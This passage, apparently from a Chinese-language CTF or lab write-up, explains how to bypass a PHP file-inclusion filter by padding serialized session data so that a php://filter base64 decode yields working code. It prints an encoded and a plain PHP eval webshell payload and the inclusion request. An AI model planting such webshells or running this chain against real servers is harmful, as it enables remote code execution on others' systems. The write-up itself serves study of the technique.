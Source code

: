 <a class="reference-link" name="Bypass%E5%88%86%E6%9E%90%E5%88%A4%E6%96%AD"></a>**Bypass分析判断**

正常情况下base64解码包含`serialize_handler=php_serialize`处理过的原始session信息，未能正常解析执行

```
a:1:`{`s:8:"username";s:40:"PD9waHAgZXZhbCgkX1BPU1RbJ210ZnEnXSk7Pz4=";`}`

?file=php://filter/convert.base64-decode/resource=/var/lib/php/sessions/sess_7qefqgu07pluu38m45isiesq3s
```

[![](https://p0.ssl.qhimg.com/t01c8b40c29c560a0b1.png)](https://p0.ssl.qhimg.com/t01c8b40c29c560a0b1.png)

这中模式下的分析，和上面Bypass分析的手段是一样的，同样依据base64编码和解码的特点进行分析，当session存储的信息中用户名编码后的长度为个位数时，`a:1:`{`s:8:"username";s:1:"`这部分数据长度为25，实际解码为`a1s8usernames1`，实际长度为14，不满足情况。

4组解码-&gt;缺少两个字节，后面需占两位（`X` 代表占位符）

```
a:1:`{`s:8:"username";s:1:"  //原始未处理信息

a1s8 user name s1XX  //base64解码特点，去除特殊字符，填充两个字节'XX'

```

当session存储的信息中用户名编码后的长度为两位数时，`a:1:`{`s:8:"username";s:11:"`这部分数据长度为26，实际解码为`a1s8usernames11`，实际长度为15，不满足情况。

4组解码-&gt;缺少一个字节，后面需占一位

```
a:1:`{`s:8:"username";s:11:"   //原始未处理信息

a1s8 user name s11X   //base64解码特点，去除特殊字符，填充一个字节'X'

```

当session存储的信息中用户名编码后的长度为三位数时，`a:1:`{`s:8:"username";s:11:"`这部分数据长度为27，实际解码为`a1s8usernames111`，长度为16，满足情况。

4组解码-&gt;缺少零个字节，后面需占零位

```
a:1:`{`s:8:"username";s:111:"  //原始未处理信息

a1s8 user name s111  //base64解码特点，去除特殊字符，填充0个字节'X'

```

这种情况下刚好满足，即使前面这部分数据正常解码后的结果是乱码，也不会影响后面恶意代码的正常解码。

构造payload

```
POST：
username=qftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftmqftm&lt;?php eval($_POST['mtfq']);?&gt;
```

先测试payload编码后的长度是否满足构造需求

